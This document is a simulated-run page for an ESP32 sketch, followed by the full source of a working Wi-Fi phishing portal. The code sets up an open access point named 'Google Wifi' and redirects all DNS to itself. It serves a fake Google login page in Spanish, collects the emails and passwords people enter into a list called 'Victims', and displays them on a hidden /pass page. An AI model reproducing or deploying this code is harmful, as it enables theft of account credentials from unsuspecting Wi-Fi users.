
Simulated run of this sketch. Board: ESP32. On the bench: output pins drawn as LEDs (lit = HIGH). Inputs (shaded band) come from the test bench.

Above: at 1.2 s.
1.3 s: HTTP request GET /post received
At 1.37 s:

Timing chart, 0 to 4.3 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 1.3 s, GPIO 15 (LED_PIN): LOW → HIGH at once, → LOW 0.15 s later

The sketch:

PortalESP32.ino
```cpp
// Includes
#include <WiFiMulti.h>
#include <DNSServer.h>
#include <WebServer.h>

// User configuration
const char* SSID_NAME = "Google Wifi";
const char* SUBTITLE = "Conectando a méxico";
const char* TITLE = "Validaci&oacute;n:";
const char* BODY = "Accede con tu cuenta google y recibe 30 minutos de conexi&oacute;n ilimitada";
const char* POST_TITLE = "Validando";
const char* POST_BODY = "Estamos validando tu cuenta, esto puede tomar hasta 2 minutos <br> espere un momento...";
const char* PASS_TITLE = "Gomitas";
const char* CLEAR_TITLE = "Limpisimo";

// System Settings
const byte HTTP_CODE = 200;
const byte DNS_PORT = 53;
const byte TICK_TIMER = 1000;
IPAddress APIP(172, 0, 0, 1);  // Gateway

const int LED_PIN = 15;  // Pin GPIO15 para el LED

String Victims = "";
unsigned long bootTime = 0, lastActivity = 0, lastTick = 0, tickCtr = 0;
DNSServer dnsServer;
WebServer webServer(80);

String input(String argName) {
  String a = webServer.arg(argName);
  a.replace("<", "&lt;");
  a.replace(">", "&gt;");
  a.substring(0, 200);
  return a;
}

String footer() {
  return "<br><footer><div><center><p>Copyright&#169; 2024 | All rights reserved Google Wireless Connections.</p></center></div></footer>";
}

String header(String t) {
  String a = String(SSID_NAME);

  String CSS = "#login-text { color: #808080;}"
               "header h1 { color: #ffffff; }"
               ".username-label {color: #30b2b4;}"
               ".password-label {color: #30b2b4;}"
               "body { font-family: 'Helvetica', sans-serif; background-color: #242424; margin: 0;font-style: italic; }"
               "header { background-color: #30b2b4; color: #fff; padding: 2rem 0; text-align: center; }"
               "h1 { margin: 0; font-size: 2.5rem; color: #ffffff; }"
               "p { font-size: 1.2rem; margin: 0.5rem 0; color: #ccc; }"
               ".container { max-width: 400px; margin: 0 auto; padding: 2rem; background-color: #242424; border-radius: 10px; box-shadow: 0 2px 10px rgba(0, 0, 0, 0.1); }"
               "input { width: 100%; padding: 12px 20px; margin: 8px 0; box-sizing: border-box; border-radius: 4px; border: 2px solid #4a4a4a; font-size: 1rem; }"
               "input[type=submit] { background: #4a4a4a; color: white; cursor: pointer; border: none; font-size: 1rem; }"
               "input[type=submit]:hover { background: #4a4a4a; }";

  String h = "<!DOCTYPE html><html>"
             "<head><title>"
             + a + " :: " + t + "</title>"
                                "<meta name=viewport content=\"width=device-width, initial-scale=1\">"
                                "<style>"
             + CSS + "</style></head>"
                     "<body><header><h1>"
             + a + "</h1><p>" + SUBTITLE + "</p></header>"
                                           "<div class=\"container\"><h1>"
             + t + "</h1>";

  return h;
}


String pass() {
  return header(PASS_TITLE) + "<ol>" + Victims + "</ol><br><center><p><a style=\"color:blue\" href=/>Index</a></p><p><a style=\"color:blue\" href=/clear>Clear passwords</a></p></center>" + footer();
}

String index() {
  return header(TITLE) + "<div id=login-text>" + BODY + "</ol></div><div><form action=/post method=post>" + "<b class=username-label> Usuario: </b> <center> <input type=text name=username placeholder=Email&nbsp;o&nbsp;n&uacute;mero&nbsp;de&nbsp;tel&eacute;fono></center>" + "<b class=password-label> Contraseña: </b> <center> <input type=password name=password placeholder=Contraseña></center>" + "<center><input type=submit value=Acceder></center></form>" + footer();
}

String posted() {
  String username = input("username");
  String password = input("password");
  Victims = "<li>Email:  <b style='color: #30b2b4;'>" + username + "</b></br>Password:  <b style='color:#fff700;'>" + password + "</b></li>" + Victims;

  digitalWrite(LED_PIN, HIGH);  // Enciende el LED cuando se recibe el correo y la contraseña
  delay(150);  // Mantiene el LED encendido por medio segundo (ajusta este tiempo si es necesario)
  digitalWrite(LED_PIN, LOW);  // Apaga el LED

  return header(POST_TITLE) + "<div style='color: white;'>" + POST_BODY + "</div>" + footer();
}

String clear() {
  Victims = "";
  return header(CLEAR_TITLE) + "<div><p>ya no tienes gomitas</div></p><center><a style=\"color:blue\" href=/>index</a></center>" + footer();
}

void setup() {
  bootTime = lastActivity = millis();

  pinMode(LED_PIN, OUTPUT);  // Configura el pin GPIO15 como salida

  WiFi.mode(WIFI_AP_STA);  // Use both AP and STA modes
  WiFi.softAPConfig(APIP, APIP, IPAddress(255, 255, 255, 0));
  WiFi.softAP(SSID_NAME);

  dnsServer.start(DNS_PORT, "*", APIP);  // DNS spoofing (Only HTTP)

  webServer.on("/post", []() {
    webServer.send(HTTP_CODE, "text/html", posted());
  });

  webServer.on("/pass", []() {
    webServer.send(HTTP_CODE, "text/html", pass());
  });

  webServer.on("/clear", []() {
    webServer.send(HTTP_CODE, "text/html", clear());
  });

  webServer.onNotFound([]() {
    lastActivity = millis();
    webServer.send(HTTP_CODE, "text/html", index());
  });

  webServer.begin();
}

void loop() {
  if ((millis() - lastTick) > TICK_TIMER) {
    lastTick = millis();
  }
  dnsServer.processNextRequest();
  webServer.handleClient();
}
```
